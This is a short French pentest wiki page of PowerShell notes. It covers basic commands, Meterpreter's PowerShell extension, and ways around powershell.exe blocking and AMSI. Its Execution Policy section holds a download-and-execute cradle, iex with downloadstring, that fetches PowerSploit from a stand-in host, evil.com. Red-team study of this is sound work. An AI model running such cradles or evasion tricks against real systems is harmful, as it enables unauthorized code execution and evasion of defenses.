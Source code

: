 ```yaml
---
title: Powershell
permalink: /Powershell/
---
```


Généralités
-----------

- powershell.exe n'est pas "Powershell" mais juste une interface pour intéragir avec. Il est possible d'utiliser d'autres interfaces comme **Not Powershell** (https://github.com/Ben0xA/nps) ou **PSAttack** (https://github.com/jaredhaight/PSAttack) Il est ainsi possible de contourner certaines restrictions avec ceci (e.g. blocage de powershell.exe ou Constrained Powershell Enforced)
- Il est possible d'activer le logging pour Powershell. 
- (Powershell v5): Constrained Powershell Enforced (lié à DeviceGuard) permet de bloquer certaines fonctionnalités de powershell (notamment celles utilisées par Invoke-Mimikatz). Cependant ceci est limité à **powershell.exe**.
- (Windows 10): [Anti malware Scan Interface](https://msdn.microsoft.com/fr-fr/library/windows/desktop/dn889587(v=vs.85).aspx) fournit une interface pour les antivirus qui permet notamment de faciliter l'analyse AV en mémoire.
   - Il existe des méthodes pour bypasser AMSI.
   - La plupart des AV ne supportent pas AMSI.
- (Windows 10): [Just Enough Administration](/Just_Enough_Administration/)


Commandes
---------

Obtenir de l'aide en powershell:

``` powershell
Get-Help Get-Command # Obtenir de l'aide sur Get-Command
Get-Help Get-Command -examples # Affiche les examples
Get-Help Get-Command -full # Affiche toute l'aide
Get-Help Get-Command -Parameter * # Affiche les paramétres
Get-Command Out* # Renvoie toutes les commandes dont le nom contient Out*
```

Pour faire des boucles:

``` powershell
Get-Process | ForEach-Object {$_.Name} # Boucle sur chaque résultat de la commande Get-Process et renvoie le nom
```

Pour faire du formatting / output:

``` powershell
Get-Process | Format-List -Property Threads, SessionId # Affiche le résultat sous forme de liste en se limitant à certaines informations
```

Meterpreter
-------------------

Il est possible d'utiliser powershell à partir d'un meterpreter:
```
load powershell
```

Voir [Meterpreter New Windows PowerShell Extension](http://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension)

Execution Policy
----------------

Il est possible de contourner l'execution policy ("\[...\] running scripts is disabled on this system."):

``` powershell
iex (new-object net.webclient).downloadstring('file:///C:\\Tools\\Powersploit\\Powersploit.psd1')
iex (new-object net.webclient).downloadstring('https://evil.com/powersploit.psd1')
```

-   Si powershell.exe est bloqué: il est possible d'utiliser **Not Powershell** (https://github.com/Ben0xA/nps)

Il est très important de comprendre que l'execution policy n'est pas un mécanisme de sécurité ! (Microsoft le dit lui-même)

Commandes utiles
----------------

Les commandes suivantes sont utiles à connaître lors de l'utilisation de Powershell:

Resources
---------

-  [PowerUp: A Usage Guide](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)
-  [PwnWiki](http://pwnwiki.io/#!scripting/powershell.md)
-  [DerbyCon - PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)
-  [PowerShell Security: Defending the Enterprise from the Latest Attack Platform](https://www.youtube.com/watch?v=_8yBjg7bRLo)
